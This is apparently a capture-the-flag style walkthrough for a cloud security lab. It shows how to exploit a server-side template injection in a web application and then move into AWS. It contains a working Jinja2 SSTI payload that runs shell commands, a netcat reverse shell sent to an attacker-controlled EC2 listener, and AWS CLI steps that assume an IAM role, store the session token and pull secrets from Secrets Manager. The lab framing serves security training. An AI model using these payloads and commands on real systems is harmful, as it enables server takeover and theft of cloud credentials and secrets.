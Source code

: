 1. Acccess and exploit given web application with SSTI vulnerability

    ```html
    <div>{{''.__class__.__mro__[1].__subclasses__()[349]('ls',shell=True,stdout=-1).communicate()}}</div>
    ```

2. Prepare an EC2 instance which will serve as attaccker's server
   - Allow TCP traffic from victim's server coming to port `4444` in Security group
   - open port `4444` using `nc`
   -  you may use other port instead of `4444`

    ```bash
    nc -lvp 4444
    ```

3. Run below payload on vulnerable web application
   - It will give control over `web application`'s server to `attacker`'s  server.

    ```html
    <div>{{''.__class__.__mro__[1].__subclasses__()[349]('nc -e /bin/sh Public_IP_address_of_attacking_server 4444 ',shell=True,stdout=-1).communicate()}}</div>
    ```
4. List IAM roles 
    - Use EC2 instance created at `2.`
    ```bash
    # List IAM role which contains word "SSTI"
    aws iam list-roles | grep SSTI
    ```
5. List attached policies of IAM role
   - Look for role which contains  `secretsmanager`

    ```bash
    aws iam list-attached-role-policies --role-name name_of_role_you_want
    ```
6. Assume role

    ```bash
    aws --region us-east-1 sts assume-role --role-arn arn_of_role_you_want --role-session-name any_name
    ```

7. configure profile `assumed-role` to use credentials retrieved above

    ```bash
    aws configure --profile assumed-role
    ```

8. Use `echo` to add `aws_session_token` to `~/.aws/credentials`

    ```bash
    echo 'aws_session_token = SessionToken_retrieved_above' >> ~/.aws/credentials
    ```

9.  Access secrets using configured profiles 

    ```bash
    aws --region us-east-1 --profile assumed-role secretsmanager list-secrets | grep SSTI
    ```

10. Get flag

    ```bash
    aws --region us-east-1 --profile assumed-role secretsmanager get-secret-value --secret-id arn_of_flag
    ```

